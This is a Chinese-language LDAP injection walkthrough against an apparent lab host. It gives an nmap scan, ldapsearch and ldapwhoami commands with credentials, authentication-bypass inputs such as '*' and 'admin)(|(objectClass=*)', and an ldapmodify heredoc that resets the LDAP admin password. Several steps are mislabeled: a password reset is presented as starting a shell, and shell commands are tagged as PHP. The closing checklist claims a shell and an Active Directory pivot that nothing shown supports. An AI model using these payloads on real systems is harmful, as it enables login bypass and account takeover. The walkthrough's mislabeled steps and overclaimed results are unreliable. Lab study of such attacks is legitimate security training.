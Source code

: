 # LDAP

### **🔍 1. 發現點**

1.  **使用 Nmap 掃描目標，尋找開放服務**

    ```bash
    nmap -p- -sC -sV --open --min-rate=1000 10.129.204.229
    ```

    * 發現：
      * **Port 80**（HTTP 伺服器）
      * **Port 389**（LDAP 伺服器）
    * 這表明 Web 應用程式可能使用 **LDAP 進行身份驗證**
2.  **使用 `ldapsearch` 探索 LDAP 服務**

    ```bash
    ldapsearch -H ldap://10.129.204.229:389 -D "cn=admin,dc=example,dc=com" -w secret123 -b "ou=people,dc=example,dc=com" "(objectClass=*)"
    ```

    * 嘗試列舉 LDAP 目錄資訊

***

### **🚀 2. 測試Payload**

1. **嘗試使用通配符 `*` 登入**
   * **目標**：測試 Web 應用是否存在 LDAP Injection
   *   在 **使用者名稱** 與 **密碼** 欄位輸入：

       ```
       Username: *
       Password: *
       ```
   * **預期結果**：如果 LDAP 查詢未經過濾，則可繞過身份驗證並直接登入
2. **分析 LDAP Injection 影響**
   *   原始 LDAP 查詢：

       ```php
       (&(objectClass=user)(sAMAccountName=$username)(userPassword=$password))
       ```
   *   **注入 `*` 會讓查詢變為：**

       ```php
       (&(objectClass=user)(sAMAccountName=*)(userPassword=*))
       ```
   * 這將匹配**所有用戶**，直接繞過驗證

***

### **🎯 3. 利用 LDAP Injection**

1. **嘗試提取更多使用者資訊**
   *   在登入頁面測試：

       ```
       Username: (|(uid=*)(userPassword=*))
       Password: anything
       ```
   * **結果**：列出所有使用者
2. **試圖獲取管理員權限**
   *   如果應用程式允許修改 LDAP 查詢，可以使用：

       ```
       Username: admin)(|(objectClass=*)
       Password: anything
       ```
   * **影響**：
     * 可登入任何帳戶（管理員帳戶）
     * 可能竊取敏感資料（例如 **Active Directory** 使用者）

***

### **🔗 4. 橫向移動 & 提權**

1. **使用 LDAP 存取內部服務**
   *   嘗試 **LDAP 傳遞攻擊**

       ```bash
       ldapwhoami -H ldap://10.129.204.229:389 -D "cn=admin,dc=example,dc=com" -w "N0tS3cr3t!"
       ```
   * **成功登入後**，可能存取：
     * **公司內部網路**
     * **Active Directory**
     * **其他關聯服務（如 Web 應用、檔案伺服器）**
2. **嘗試啟動 Shell**
   *   如果應用程式允許執行系統命令：

       ```php
       ldapmodify -H ldap://10.129.204.229:389 -D "cn=admin,dc=example,dc=com" -w secret123 <<EOF
       dn: cn=admin,dc=example,dc=com
       changetype: modify
       add: userPassword
       userPassword: NewPass123!
       EOF
       ```
   * **效果**：
     * 重置 LDAP 管理員密碼
     * 取得完整管理權限

***

### **⚡ 5. 連鎖漏洞**

✅ **LDAP Injection 繞過驗證**\
✅ **列舉所有用戶**\
✅ **獲取管理員存取權限**\
✅ **橫向移動至 Active Directory**\
✅ **提權並執行 Shell 命令**

